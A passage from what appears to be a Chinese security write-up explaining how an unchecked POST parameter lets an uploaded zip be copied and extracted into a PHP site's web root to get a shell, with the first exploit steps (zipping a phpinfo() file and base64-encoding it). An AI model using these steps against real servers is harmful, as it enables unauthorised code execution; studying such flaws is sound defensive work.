 [![](assets/1701222538-aaede3130d4529f91767a9c8e4bf610a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231127135451-7b50f668-8ce9-1.png)

其中`$RemoteFile` 可以由 `$_POST['file']`完全控制，然后通过`copy`复制并重命名，接着直接解压至根目录，简单地来讲，只要我们上传一个压缩的zip文件到服务器的任意位置，那么就可以GetShell，找一个上传点并不难，但是我们当前可是在PHP环境下耶？ PHP是世界上最好的语言，怎么可能 GetShell 需要那么麻烦是吧？

如果你了解php支持的[支持的协议和封装协议](https://www.php.net/manual/zh/wrappers.php#wrappers)，即我们常说的伪协议，那么这个问题迎刃而解。

[![](assets/1701222538-fbaee9c906c5d06c4f36ccced75b7d9c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231127135504-8286cfde-8ce9-1.png)

利用该漏洞的步骤如下:

1) 通过 `zip`命令将内容`<?php phpinfo();?>`的`1.php`压缩为 `1.php.zip`

```plain
zip 1.php.zip 1.php
```

2) PHP 写一个 base64 加密的Binary文件的 `exp.php`

```plain
<?php

// 读取二进制流
$binaryData = file_get_contents('1.php.zip');

// 转换为 base64 编码字符串
$base64String = base64_encode($binaryData);

// 输出结果
echo $base64String;
```
